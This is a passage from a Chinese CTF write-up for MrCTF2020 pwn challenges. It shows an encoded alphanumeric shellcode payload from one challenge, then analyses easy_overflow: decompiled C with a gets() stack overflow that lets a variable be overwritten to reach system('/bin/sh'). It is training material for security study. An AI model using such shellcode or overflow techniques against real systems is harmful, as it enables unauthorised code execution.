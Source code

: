 ### exp

```python
payload = 'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t'
se(payload)
```



## easy_overflow
- 题目描述：
  
    > 有种你连我
- 题目附件：[easy_overflow](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MrCTF2020/pwn/easy_overflow/easy_overflow)
- 考察点：栈溢出、变量覆盖
- 难度：入门
- 初始分值：500
- 最终分值：50
- 完成人数：58

### 程序分析

主要代码如下，`gets`函数存在漏洞，可导致栈溢出：

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char v4; // [rsp+0h] [rbp-70h]
  char v5; // [rsp+30h] [rbp-40h]
  // ...
  gets(&v4, argv);
  if ( !check(&v5) )
    exit(0);
  system("/bin/sh");
  return 0;
}
```

程序逻辑比较简单：对`v5`进行检查，通过检查就给shell。

```nasm
 ► 0x555555554874 <main+113>    call   check <0x55555555479a>
        rdi: 0x7fffffffda80 ◂— 'ju3t_@_f@k3_f1@g'
```

> `v5="ju3t_@_f@k3_f1@g"`

`check`函数如下：

```c
signed __int64 __fastcall check(__int64 a1){
  int i; // [rsp+18h] [rbp-8h]
  int v3; // [rsp+1Ch] [rbp-4h]

  v3 = strlen(fake_flag);
  for ( i = 0; ; ++i )
  {
    if ( i == v3 )
      return 1LL;
    if ( *(i + a1) != fake_flag[i] )
      break;
  }
  return 0LL;
}
```
